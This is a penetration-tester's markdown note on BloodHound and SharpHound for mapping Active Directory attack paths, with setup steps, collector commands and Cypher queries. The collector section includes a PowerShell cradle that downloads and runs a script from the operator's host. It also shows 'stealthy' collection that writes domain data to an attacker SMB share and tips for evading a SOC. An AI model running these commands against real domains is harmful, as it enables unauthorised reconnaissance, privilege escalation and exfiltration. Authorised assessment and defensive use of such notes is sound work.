

---
tags:
  - tool
  - active_directory
---
# BloodHound

Reveal hidden relationships within AD

SharpHound - Official data collector for BloodHound, performs all enumeration automatically and outputs to .json files ([documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html))

## Setup

### Community Edition

```powershell
# Change to docker compose directory
cd /opt/BloodHound/examples/docker-compose

# Install bloodhound
sudo docker compose pull

# Execute
sudo docker compose up

# Copy passwd and navigate to:
http://localhost:8080
# Creds are spam@example.com:<passwd>

# Clear database
cd /opt/BloodHound/examples/docker-compose
sudo docker compose down
```

### SharpHound (collector)

```powershell
# Grab local legacy collectors in kali
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe .
```

```powershell
# Import
iex(new-object net.webclient).downloadstring("http://$OUR_IP/SharpHound.ps1")
Get-Help Invoke-BloodHound

# Execute
.\SharpHound.exe -c All
.\SharpHound.exe -c All -d $DOMAIN --outputprefix $DOMAIN
.\SharpHound.exe -c All -d $DOMAIN --domaincontroller $DC
Invoke-BloodHound -CollectionMethod All

# Execute stealthily (previously connected to remote share with net)
smbserver.py -smb2support share $(pwd) -username $USER -password '$PASSWD'
powershell net use \\10.10.14.2\share /user:$USER '$PASSWD'
.\SharpHound.exe -c all --memcache --outputdirectory \\$OUR_IP\share\ --zippassword test --randomfilenames

# Execute over time for session data (every min for the next hour), requires administrator
.\harpHound.exe -c Session --loop --loopduration 01:00:00 --loopinterval 00:01:00

# Query valid users from unzipped json
cat users.json | jq -r '.data[].Properties.samaccountname' | grep -v null > ../valid_users.txt
```

**Note:** Use the `DConly` collection method in large environments that have a SOC to minimize traffic footprint.

This diagram is slightly outdated but should still give a good idea of the differences between collection types.



### BloodHound

We can now run BloodHound

```bash
# Start neo4j (creds - neo4j:neo4j)
sudo neo4j start
firefox http://localhost:7474 &
```

```bash
# Start bloodhound
bloodhound
```

**Note:** You can clear the database from inside the bloodhound GUI at the bottom of "Database Info"

We can now use the `Upload Data` function on the right side of the GUI to upload the zip file, or drag-and-drop it into BloodHound's main window.

See [here](https://support.websoft9.com/en/docs/neo4j) if you forgot your password.

## Analysis

- Start by marking owned targets
- We can now get a high level overview of the environment

`Find Shortest Paths to Domain Admins` (at the bottom of analysis tab)

Custom query cheatsheet: https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/

**Custom queries:**

```js
// Query node types
user:
group:
computer:
domain:
gpo:
ou:
container:

// Find WinRM Users
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

// Find SQL admin rights
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

Node types we can prepend (exe. `user:` to pull all users)

**Active Directory**

- Group
- Domain
- Computer
- User
- OU
- GPO
- Container

**Azure**

- AZApp
- AZRole
- AZDevice
- AZGroup
- AZKeyVault
- AZManagementGroup
- AZResourceGroup
- AZServicePrincipal
- AZSubscription
- AZTenant
- AZUser
- AZVM
